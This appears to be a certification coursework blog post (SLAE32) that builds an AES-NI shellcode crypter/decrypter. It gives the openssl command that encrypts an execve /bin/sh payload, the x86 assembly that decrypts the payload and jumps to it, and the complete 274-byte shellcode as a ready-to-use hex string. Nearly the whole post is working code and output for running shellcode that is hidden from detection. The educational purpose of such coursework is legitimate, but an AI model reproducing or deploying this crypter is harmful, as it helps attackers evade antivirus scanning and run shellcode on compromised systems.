 # 7. Shellcode Crypter/Decrypter

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1568

## Task

The task is to create a custom shellcode crypter/decrypter.

## Solution

The implemented solution uses OpenSSL to encrypt the payload and the [AES-NI instruction set](https://www.intel.com/content/dam/doc/white-paper/advanced-encryption-standard-new-instructions-set-paper.pdf) to decrypt and execute the payload.

The "execve-stack" payload (/bin/sh version) is encrypted using OpenSSL with AES-128 in ECB mode and the key "ABCDABCDABCDABCD":

```sh
$ openssl enc -aes-128-ecb -in execve-stack_bytes -K 41424344414243444142434441424344 -nosalt
```

The decrypter will generate the expanded key:

```nasm
global _start

section .text

jmp _start

key_expansion:
    pshufd xmm2, xmm2, 0xff
    
    ; Optimization from https://github.com/torvalds/linux/blob/master/arch/x86/crypto/aesni-intel_asm.S
    shufps xmm3, xmm1, 0x10
    pxor xmm1, xmm3
    shufps xmm3, xmm1, 0x8c
    
    pxor xmm1, xmm3
    pxor xmm1, xmm2
    add ebx, 0x10
    movups [ebx], xmm1
    ret
    
...
    
_start:
    xor eax, eax
    mov al, 0xa0
    add esp, eax                        ; allocate 10x16 bytes
    
    xor ecx, ecx
    mov cl, 0x4
push_key_loop:
    push 0x44434241                     ; "ABCD" reversed
    loop push_key_loop
    movups xmm1, [esp]                  ; xmm1 = key = "ABCDABCDABCDABCD"
    
    pxor xmm3, xmm3                     ; xmm3 = 0 (required for key expansion)
    mov ebx, esp                        ; ebx = expanded key pointer
    
    aeskeygenassist xmm2, xmm1, 0x1     ; generate round keys
    call key_expansion
    aeskeygenassist xmm2, xmm1, 0x2
    call key_expansion
    aeskeygenassist xmm2, xmm1, 0x4
    call key_expansion
    aeskeygenassist xmm2, xmm1, 0x8
    call key_expansion
    aeskeygenassist xmm2, xmm1, 0x10
    call key_expansion
    aeskeygenassist xmm2, xmm1, 0x20
    call key_expansion
    aeskeygenassist xmm2, xmm1, 0x40
    call key_expansion
    aeskeygenassist xmm2, xmm1, 0x80
    call key_expansion
    aeskeygenassist xmm2, xmm1, 0x1b
    call key_expansion
    aeskeygenassist xmm2, xmm1, 0x36
    call key_expansion
```

The encrypted payload is then decrypted and executed:

```nasm
decrypt_block:
    movups xmm0, [esp + 0x4]            ; xmm0 = data
    movups xmm1, [ebx]                  ; xmm1 = first round key
    pxor xmm0, xmm1                     ; decrypt first round
    
    mov cl, 0x9
decrypt_loop:
    sub ebx, 0x10
    movups xmm1, [ebx]                  ; xmm1 = next round key
    aesimc xmm1, xmm1
    aesdec xmm0, xmm1                   ; decrypt next round
    loop decrypt_loop
    
    sub ebx, 0x10
    movups xmm1, [ebx]                  ; xmm1 = last round key
    aesdeclast xmm0, xmm1               ; decrypt last round
    movups [esp + 0x4], xmm0            ; store decrypted block
    ret
    
...
    
    push 0x86546f74                     ; push encrypted first block
    push 0x0a2f925e
    push 0xf1d0facb
    push 0x4457cd50
    call decrypt_block                  ; decrypt first block
    
    add ebx, eax                        ; reset expanded key pointer
    
    push 0x2dc431ad                     ; push encrypted second block
    push 0xff4d311d
    push 0x2fbd3b68
    push 0xb560013a
    call decrypt_block                  ; decrypt second block
    
    jmp esp                             ; execute payload 
```

The complete source code can be found here: [decrypter.nasm](https://github.com/SpacePlant/slae32/blob/main/decrypter.nasm)

## Results

The assembled decrypter is 274 bytes including the encrypted payload and the key and contains no null bytes.

```sh
$ shellcode=$(for i in $(objdump -d dec | grep "^ " | cut -f 2); do echo -n '\x'$i; done)
$ echo $shellcode
\xeb\x51\x66\x0f\x70\xd2\xff\x0f\xc6\xd9\x10\x66\x0f\xef\xcb\x0f\xc6\xd9\x8c\x66\x0f\xef\xcb\x66\x0f\xef\xca\x83\xc3\x10\x0f\x11\x0b\xc3\x0f\x10\x44\x24\x04\x0f\x10\x0b\x66\x0f\xef\xc1\xb1\x09\x83\xeb\x10\x0f\x10\x0b\x66\x0f\x38\xdb\xc9\x66\x0f\x38\xde\xc1\xe2\xee\x83\xeb\x10\x0f\x10\x0b\x66\x0f\x38\xdf\xc1\x0f\x11\x44\x24\x04\xc3\x31\xc0\xb0\xa0\x01\xc4\x31\xc9\xb1\x04\x68\x41\x42\x43\x44\xe2\xf9\x0f\x10\x0c\x24\x66\x0f\xef\xdb\x89\xe3\x66\x0f\x3a\xdf\xd1\x01\xe8\x89\xff\xff\xff\x66\x0f\x3a\xdf\xd1\x02\xe8\x7e\xff\xff\xff\x66\x0f\x3a\xdf\xd1\x04\xe8\x73\xff\xff\xff\x66\x0f\x3a\xdf\xd1\x08\xe8\x68\xff\xff\xff\x66\x0f\x3a\xdf\xd1\x10\xe8\x5d\xff\xff\xff\x66\x0f\x3a\xdf\xd1\x20\xe8\x52\xff\xff\xff\x66\x0f\x3a\xdf\xd1\x40\xe8\x47\xff\xff\xff\x66\x0f\x3a\xdf\xd1\x80\xe8\x3c\xff\xff\xff\x66\x0f\x3a\xdf\xd1\x1b\xe8\x31\xff\xff\xff\x66\x0f\x3a\xdf\xd1\x36\xe8\x26\xff\xff\xff\x68\x74\x6f\x54\x86\x68\x5e\x92\x2f\x0a\x68\xcb\xfa\xd0\xf1\x68\x50\xcd\x57\x44\xe8\x2d\xff\xff\xff\x01\xc3\x68\xad\x31\xc4\x2d\x68\x1d\x31\x4d\xff\x68\x68\x3b\xbd\x2f\x68\x3a\x01\x60\xb5\xe8\x12\xff\xff\xff\xff\xe4
$ echo $shellcode | tr -cd 'x' | wc -c
274
```

The decrypter is executed successfully using the C template:

![Execve executed](images/decrypter.png)
